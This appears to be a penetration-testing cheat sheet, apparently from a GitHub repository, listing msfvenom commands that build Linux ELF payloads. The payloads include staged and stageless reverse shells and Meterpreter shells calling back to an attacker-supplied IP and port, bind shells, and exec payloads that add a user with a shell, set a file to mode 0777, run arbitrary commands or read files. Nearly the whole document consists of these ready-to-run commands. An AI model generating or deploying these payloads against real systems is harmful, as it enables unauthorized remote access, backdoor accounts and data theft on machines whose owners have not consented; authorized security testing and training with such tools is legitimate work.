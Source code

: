 # ELF Execution

## 01 - Generate Payloads

### 1.1 - Reverse Shells

Staged x86-64 (64-bit) reverse shell.

```
$ msfvenom -p linux/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x64
```

Stageless x86-64 (64-bit) reverse shell.

```
$ msfvenom -p linux/x64/shell_reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x64
```

Staged x86_64 (64-bit) `meterpreter` reverse shell.

```
$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o payload-x64
```

Stageless x86_64 (64-bit) `meterpreter` reverse shell.

```
$ msfvenom -p linux/x64/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f elf -o payload-x64

$ msfvenom -p linux/x64/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f elf -o payload-x64
```

Staged x86 (32-bit) reverse shell.

```
$ msfvenom -p linux/x86/shell/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x86
```

Stageless x86 (32-bit) reverse shell.

```
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<IP> lport=<PORT> -f elf -o shell-x86
```

Staged x86 (32-bit) `meterpreter` reverse shell.

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f elf -o payload-x86
```

Stageless x86 (32-bit) `meterpreter` reverse shell.

```
$ msfvenom -p linux/x86/meterpreter_reverse_http lhost=<IP> lport=<PORT> -f elf -o payload-x86

$ msfvenom -p linux/x86/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -f elf -o payload-x86
```

### 1.2 - Bind Shells

Staged x86-64 (64-bit) bind shell.

```
$ msfvenom -p linux/x64/shell/bind_tcp lport=<PORT> -f elf -o shell-x86-64
```

Stageless x86-64 (64-bit) bind shell.

```
$ msfvenom -p linux/x64/shell_bind_tcp lport=<PORT> -f elf -o shell-x86-64
```

Staged x86-64 (64-bit) `meterpreter` bind shell.

```
$ msfvenom -p linux/x64/meterpreter/bind_tcp lport=<PORT> -f elf -o payload-x64
```

Staged x86 (32-bit) bind shell.

```
$ msfvenom -p linux/x86/shell/bind_tcp lport=<PORT> -f elf -o shell-x86
```

Stageless x86 (32-bit) bind shell.

```
$ msfvenom -p linux/x86/shell_bind_tcp lport=<PORT> -f elf -o shell-x86
```

Staged x86 (32-bit) `meterpreter` bind shell.

```
$ msfvenom -p linux/x86/meterpreter/bind_tcp lport=<PORT> -f elf -o payload-x86
```

### 1.3 - Executable Binary Payloads

#### 1.3.1 - Add User Linux Exec Payload

```
$ msfvenom -p linux/x86/adduser user=<username> pass=<password> shell=/bin/sh -f elf -o payload-x86
```

#### 1.3.2 - Execute Linux Exec Payload

```
$ msfvenom -p linux/x86/chmod file=/path/to/file mode=0777 -f elf -o payload-x86

$ msfvenom -p linux/x86/exec cmd="<commands>" -f elf -o payload-x86

$ msfvenom -p linux/x86/read_file fd=1 path=/path/to/file -f elf -o payload-x86
```
